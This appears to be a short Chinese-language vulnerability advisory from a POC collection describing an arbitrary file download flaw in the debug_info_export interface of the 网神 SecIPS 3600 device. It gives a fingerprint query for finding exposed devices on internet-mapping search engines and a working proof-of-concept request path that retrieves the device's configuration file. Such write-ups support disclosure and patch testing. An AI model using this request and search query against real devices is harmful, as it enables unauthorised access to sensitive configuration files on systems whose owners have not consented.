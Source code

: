# 

# 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
网神 SecIPS 3600
```

## 网络测绘

```
app="网神-SecIPS"
```

## 漏洞复现

登录页面

![image-20230314090018282](images/image-20230314090018282.png)

验证POC

```
/webui/debug/debug_info_export?filename=default.cfg
```

![image-20230314090033658](images/image-20230314090033658.png)
